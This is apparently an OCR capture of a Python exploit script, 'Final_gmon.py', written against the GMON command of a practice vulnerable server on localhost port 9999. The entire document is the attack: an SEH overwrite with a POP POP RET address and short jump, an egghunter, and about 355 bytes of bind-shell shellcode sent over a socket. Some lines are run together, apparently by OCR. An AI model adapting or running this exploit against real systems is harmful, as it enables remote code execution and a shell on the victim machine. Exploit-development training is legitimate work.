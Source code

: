 ```
**### Final_gmon.py**import socket
import struct
import os
import systarget_command = "GMON /"
offset = 3522
eip = struct.pack("<I", 0x6250172b)              **# POP POP RET**
short_jmp = "\xEB\x09\x90\x90"                   **# Short JMP**
egg = "T00WT00W" **# Egghunter (egg = T00W)**
egghunter = ""
egghunter += "\x90\x66\x81\xca\xff\x0f\x42\x52"
egghunter += "\x6a\x02\x58\xcd\x2e\x3c\x05\x5a"
egghunter += "\x74\xef\xb8\x54\x30\x30\x57\x8b"
egghunter += "\xfa\xaf\x75\xea\xaf\x75\xe7\xff"
egghunter += "\xe7"**# Bind Shell (355 Bytes)**
buf =  ""
buf += "\xda\xc8\xb8\xaa\xa0\x38\x73\xd9\x74\x24\xf4\x5a\x2b"
buf += "\xc9\xb1\x53\x31\x42\x17\x83\xc2\x04\x03\xe8\xb3\xda"
buf += "\x86\x10\x5b\x98\x69\xe8\x9c\xfd\xe0\x0d\xad\x3d\x96"
buf += "\x46\x9e\x8d\xdc\x0a\x13\x65\xb0\xbe\xa0\x0b\x1d\xb1"
buf += "\x01\xa1\x7b\xfc\x92\x9a\xb8\x9f\x10\xe1\xec\x7f\x28"
buf += "\x2a\xe1\x7e\x6d\x57\x08\xd2\x26\x13\xbf\xc2\x43\x69"
buf += "\x7c\x69\x1f\x7f\x04\x8e\xe8\x7e\x25\x01\x62\xd9\xe5"
buf += "\xa0\xa7\x51\xac\xba\xa4\x5c\x66\x31\x1e\x2a\x79\x93"
buf += "\x6e\xd3\xd6\xda\x5e\x26\x26\x1b\x58\xd9\x5d\x55\x9a"
buf += "\x64\x66\xa2\xe0\xb2\xe3\x30\x42\x30\x53\x9c\x72\x95"
buf += "\x02\x57\x78\x52\x40\x3f\x9d\x65\x85\x34\x99\xee\x28"
buf += "\x9a\x2b\xb4\x0e\x3e\x77\x6e\x2e\x67\xdd\xc1\x4f\x77"
buf += "\xbe\xbe\xf5\xfc\x53\xaa\x87\x5f\x3c\x1f\xaa\x5f\xbc"
buf += "\x37\xbd\x2c\x8e\x98\x15\xba\xa2\x51\xb0\x3d\xc4\x4b"
buf += "\x04\xd1\x3b\x74\x75\xf8\xff\x20\x25\x92\xd6\x48\xae"
buf += "\x62\xd6\x9c\x5b\x6a\x71\x4f\x7e\x97\xc1\x3f\x3e\x37"
buf += "\xaa\x55\xb1\x68\xca\x55\x1b\x01\x63\xa8\xa4\x2c\xcf"
buf += "\x25\x42\x44\x3f\x60\xdc\xf0\xfd\x57\xd5\x67\xfd\xbd"
buf += "\x4d\x0f\xb6\xd7\x4a\x30\x47\xf2\xfc\xa6\xcc\x11\x39"
buf += "\xd7\xd2\x3f\x69\x80\x45\xb5\xf8\xe3\xf4\xca\xd0\x93"
buf += "\x95\x59\xbf\x63\xd3\x41\x68\x34\xb4\xb4\x61\xd0\x28"
buf += "\xee\xdb\xc6\xb0\x76\x23\x42\x6f\x4b\xaa\x4b\xe2\xf7"
buf += "\x88\x5b\x3a\xf7\x94\x0f\x92\xae\x42\xf9\x54\x19\x25"
buf += "\x53\x0f\xf6\xef\x33\xd6\x34\x30\x45\xd7\x10\xc6\xa9"
buf += "\x66\xcd\x9f\xd6\x47\x99\x17\xaf\xb5\x39\xd7\x7a\x7e"
buf += "\x59\x3a\xae\x8b\xf2\xe3\x3b\x36\x9f\x13\x96\x75\xa6"
buf += "\x97\x12\x06\x5d\x87\x57\x03\x19\x0f\x84\x79\x32\xfa"
buf += "\xaa\x2e\x33\x2f"payload = ""
payload += target_command
payload += "A" * 100
payload += egg
payload += buf
payload += "B" * (offset - 100 - len(egg) - len(buf) - len(short_jmp))
payload += short_jmp
payload += eip
payload += "\x90" * 10
payload += egghunter
payload += "C" * (4103 - offset - len(eip) - 10 - len(egghunter))print "[+] Sending buffer (Size: %d)" % len(payload)s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(('127.0.0.1', 9999))
print(s.recv(1024))
s.send(payload)
s.close()
```
